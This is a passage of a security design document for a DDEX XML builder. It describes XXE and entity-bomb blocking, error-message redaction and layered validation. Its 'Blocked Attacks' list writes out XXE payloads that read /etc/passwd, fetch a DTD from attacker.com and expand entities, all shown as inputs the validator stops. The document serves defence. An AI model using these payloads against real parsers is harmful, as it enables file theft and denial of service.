 **Blocked Attacks**:
```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">                    ❌ Blocked
<!ENTITY xxe SYSTEM "http://attacker.com/evil.dtd">          ❌ Blocked
<!ENTITY lol "&lol2;&lol2;&lol2;&lol2;&lol2;">                ❌ Blocked
<!ENTITY % file SYSTEM "file:///etc/passwd">                 ❌ Blocked
<!ENTITY bomb "A very long string repeated many times...">   ❌ Blocked
```

**Allowed Entities**:
```xml
<!ENTITY title "Song Title">                                 ✅ Allowed
<!ENTITY isrc "USRC17607839">                                ✅ Allowed
<!ENTITY duration "PT3M45S">                                 ✅ Allowed
```

### ✅ Information Disclosure Prevention

**Problem**: Error messages could leak sensitive file paths, IP addresses, system information.

**Solution**: Context-aware error message sanitization:

- **Production Mode**: Minimal information disclosure, generic error messages
- **Development Mode**: Helpful debugging info with sensitive data redacted
- **Correlation IDs**: Link public errors to detailed internal logs
- **Pattern Redaction**: Removes file paths, IPs, memory addresses, API keys
- **Context-Aware**: Different sanitization based on error context
- **Configurable**: Adjustable verbosity based on environment

**Information Redacted**:
```
File paths:     /home/user/secrets.txt → <file path>
IP addresses:   192.168.1.100 → <ip address>
Memory addrs:   0x7fff5fbff000 → <memory address>
API keys:       sk_live_123...abc → sk_<redacted>
Stack traces:   at function:42 → <stack trace>
```

**Safe Error Messages**:
```
Production:  "File operation failed [E1002] [ID: a1b2c3d4]"
Development: "Failed to read file [E1002] [ID: a1b2c3d4]"
Internal Log: "Failed to read /home/user/secrets.txt: Permission denied [ID: a1b2c3d4]"
```

## Security Architecture

### Integrated Defense Layers

```
┌─────────────────────────────────────────────────────────────┐
│                    DDEX Builder Request                     │
└─────────────────────┬───────────────────────────────────────┘
                      │
┌─────────────────────▼───────────────────────────────────────┐
│                Path Validation                              │
│  • Normalize paths and detect traversal                    │
│  • Block system directories                                │
│  • Prevent encoding attacks                                │
└─────────────────────┬───────────────────────────────────────┘
                      │
┌─────────────────────▼───────────────────────────────────────┐
│              Entity Classification                          │
│  • Classify XML entities (Safe/Suspicious/Malicious)       │
│  • Block external and parameter entities                   │
│  • Prevent expansion bombs                                  │
└─────────────────────┬───────────────────────────────────────┘
```